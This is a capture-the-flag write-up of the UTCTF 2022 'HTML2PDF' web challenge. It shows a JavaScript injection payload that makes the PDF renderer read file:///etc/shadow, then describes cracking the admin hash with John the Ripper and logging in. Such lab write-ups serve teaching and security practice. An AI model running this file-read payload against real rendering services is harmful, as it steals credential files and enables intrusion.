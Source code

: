 ```yaml
---
layout: post
category: writeups
title: "UTCTF 2022"
date: 2022-03-07
head_ctf_categories:
  - web
---
```

# web

## HTML2PDF

![img_name](/assets/img/UTCTF_2022/html2pdf.png){: .image-50 }


We are given a link to a web page.

![img_name](/assets/img/UTCTF_2022/html2pdf_a.png){: .image-50 }


I press the Sumbit button and I get:

![img_name](/assets/img/UTCTF_2022/html2pdf_b.png){: .image-50 }


and looking at the bottom I see:

![img_name](/assets/img/UTCTF_2022/html2pdf_c.png){: .image-50 }


`Rendered by HTML2PDF`: HTML2PDF as the title of the challenge, a glue?

The clue leads me to make some search on the web and I find:

![img_name](/assets/img/UTCTF_2022/html2pdf_d.png){: .image-50 }


Interessant! And following the second web link:


![img_name](/assets/img/UTCTF_2022/html2pdf_e.png){: .image-50 }

Very interessant! Let's try a simple script:

```html
<h1 id=rd>HA HA HA</h1>
<script>
document.getElementById('rd').innerHTML= 'Hello World';
</script>
```
and I get:

![img_name](/assets/img/UTCTF_2022/html2pdf_f.png){: .image-50 }

and with another script I try to get the passwd file:


![img_name](/assets/img/UTCTF_2022/html2pdf_g.png){: .image-50 }

I get:

![img_name](/assets/img/UTCTF_2022/html2pdf_h.png){: .image-50 }

there's a nice username:`WeakPasswordAdmin`

So I try to get the shadow file using the following script:

```html
<script>
x=new XMLHttpRequest;
x.onload=function(){
document.write(this.responseText)
};
x.open("GET","file:///etc/shadow");
x.send();
</script
```

![img_name](/assets/img/UTCTF_2022/html2pdf_i.png){: .image-50 }

and I get:

![img_name](/assets/img/UTCTF_2022/html2pdf_l.png){: .image-50 }

I can see the  `hash of WeakPasswordAdmin’s password`


I try to use `John the Ripper` for cracking the password:

![img_name](/assets/img/UTCTF_2022/html2pdf_m.png){: .image-50 }

“sunshine” is the password!

So after log in with those credentials I get the flag:

![img_name](/assets/img/UTCTF_2022/html2pdf_n.png){: .image-50 }



